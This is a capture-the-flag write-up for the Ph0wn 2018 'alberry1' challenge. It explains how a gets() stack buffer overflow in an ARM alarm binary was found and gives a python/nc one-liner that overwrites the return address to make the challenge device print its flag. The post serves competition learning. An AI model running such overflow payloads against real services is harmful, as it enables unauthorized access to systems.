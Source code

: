 ```yaml
---
layout: post
title: "Ph0wn 2018 - alberry1"
mathjax: true

date: 2018-12-14
---
```


*Basic Stack buffer overflow in an arm binary*

<!--more-->

### Description

Our new hardened alarm with a Raspberry Pi (Al Berry) prototype is ready for a first test. This alarm uses a Raspberry Pi and a LCD cap to display useful things in a use friendly form. All the management goes thru a TCP/IP session. You can access to the alarm on IP xxxxxxxxx TCP port 12345.

Your first mission is to check if you can disarm the alarm without knowing the password management. Use the given binary to check the security in depth. Who knows, maybe the developer have done a big mess with the code ...

Note:

    You can come and see the device at the organizer's desk
    This challenge is an ARM exploitation and relies on a Raspberry Pi. No brute-force or SSH tricks is needed to solve it. It is impossible to implement an anti-DOS on a simple RPi board, respect it for the pleasure of all participants.
    The flag has the usual format.

sha256 alberry: 0cf316a73ee6e155f1a9703f736beed2c6d3f0a22558cb334cb73f4cbbd6e255

Author: Phil

### Details

Category:    exploit

### Solution

We were given a ELF binary file called [alberry1](/resources/2018/ph0wn/alberry1/alberry1).
The main function consist of reading a password to arm or disarm the alarm.

When opening the binary in IDA, a little quirk happend. The function is not showing correctly on the graph view because of the function *__aeabi_read_tp* that is not returning.

<img src="/resources/2018/ph0wn/alberry1/ida_bug.png" width="800">

To fix this bug, do a right click on *printf* function, then untick non returning function. In order to have a nice decompiled view as well, delete the *runMain* function and recreate it.

<img src="/resources/2018/ph0wn/alberry1/ida_good.png" width="800">

oH yeah, sweat, reversing the checkPassword() function led to discover a buffer overflow:

```c
int checkPassword()
{
  int v0; // r0
  int result; // r0
  char v2; // [sp+4h] [bp-18h]

  gets(&v2); // BUFFER OVERFLOW
  v0 = strlen(&v2);
  hash2(&v2, v0, &hashBuffer);
  result = memcmp(&currentPasswd, &hashBuffer, 32);
  if ( !result )
    logged = 1;
  return result;
```

Looking in IDA pro shows that the buffer overflowed is 0x18 bytes long.

We need to found a way to leak the flag. The flag is read using a function called *readFlag()*. Inside the main function, there is a snippet that do exactly this:

```shell
.text:00011578 70 00 9F E5                             LDR     R0, =aAlarmDisarmed ; jumptable 00011548 case 1
.text:0001157C CC 22 00 EB                             BL      puts
.text:00011580 6C 10 9F E5                             LDR     R1, =flagDisarmed
.text:00011584 6C 00 9F E5                             LDR     R0, =aYourFlagIsS ; "Your flag is: %s\n"
.text:00011588 20 1F 00 EB                             BL      printf
```
The exploit is as simple as triggering the buffer overflow with 0x18 bytes of junk and the the address *0x011578* we found earlier. 

The exploit is:

```shell
 python2 -c 'print "A"*24 + "\x78\x15\x01\x00"' | nc 10.210.17.68 12345

############################################
# Welcome to Al Berry interface management #
############################################
#          Your alarm is *ARMED*           #
############################################

Password: 
Alarm disarmed
Your flag is: ph0wn{Enjoy_the_Silence}
```

Challenges resources are available in the [resources folder](https://github.com/duksctf/duksctf.github.io/tree/master/resources/2018/ph0wn/alberry1)

